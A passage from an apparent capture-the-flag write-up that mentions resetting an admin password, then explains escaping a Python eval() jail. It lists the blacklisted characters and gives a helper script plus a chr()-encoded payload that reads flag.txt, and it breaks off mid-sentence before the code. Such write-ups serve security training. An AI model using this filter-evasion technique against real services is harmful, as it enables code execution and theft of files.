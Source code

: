 We've reset the admin password and now we can login to the app as admin.
![Image](/images/2023-3-24-cyberapoc-23/Pasted image 20230318142217.png)




# [Misc] Nehebkaus Trap - Medium

Nehebkaus Trap was a Medium difficulty challenge under the Miscellanous category. Upon connecting to the target machine, we're greeted with a ominous looking prompt:
![Image](/images/2023-3-24-cyberapoc-23/Pasted image 20230322192711.png)


We quickly notice that the responses to our inputs are strange.
![Image](/images/2023-3-24-cyberapoc-23/Pasted image 20230322193021.png)

First, the id command appears to be getting accepted but we're seeing a not defined error for ls. If we pass in a single bracket we see that something is trying to match for a closing bracket.

Based on the output we are seeing and the ASCII art snake hint - we can guess that we might be in some type of python environment. We can test our theory by passing in python commands and seeing how the program behaves. What if we try passing in input()?

![Image](/images/2023-3-24-cyberapoc-23/Pasted image 20230322193408.png)


The prompt hangs until another input is sent. This better solidifies our theory that we are able to execute python commands and that we are likely within a python eval() statement. If that's the case, we should be able to print something as well.

![Image](/images/2023-3-24-cyberapoc-23/Pasted image 20230322193646.png)


There also appears to be a strict blacklist in place. After some additional testing, we learn that the blacklist is quite extensive and blocks us from using the following characters: '.', '\_', '/', '"', ';', ' ', "'", ','        

Now we need to build a payload that will retrieve our flag but avoids using any of these characters in the payload. Luckily for us, the ( ) characters are not blacklisted which gives us some flexibility in creating the payload. Since we know that we are inside of an eval statement, any 


```Python
userInput = input("Convert to CHR() format: ")
outputString = ""
for letter in userInput:
	outputString += ("chr(%s)+" % ord(letter)) 
print(outputString[:-1])
```


Convert to CHR() format: with open('flag.txt') as f: print(f.read()) chr(119)+chr(105)+chr(116)+chr(104)+chr(32)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(32)+chr(97)+chr(115)+chr(32)+chr(102)+chr(58)+chr(32)+chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(102)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)+chr(41)

